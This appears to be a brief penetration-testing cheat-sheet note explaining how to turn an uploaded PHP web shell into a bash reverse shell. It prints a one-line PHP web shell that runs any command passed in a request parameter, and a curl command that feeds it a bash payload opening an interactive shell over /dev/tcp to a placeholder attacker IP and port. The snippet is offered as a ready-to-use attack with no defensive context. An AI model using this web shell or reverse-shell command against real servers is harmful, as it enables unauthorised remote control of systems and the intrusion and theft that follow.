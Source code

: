 ### bash reverse shell from a php 

When you have one of these uploaded:

```php
<?php system($_REQUEST['cmd']); ?>
```

and need a revshell.

```bash
curl http://10.10.10.101/cmd.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'"
```
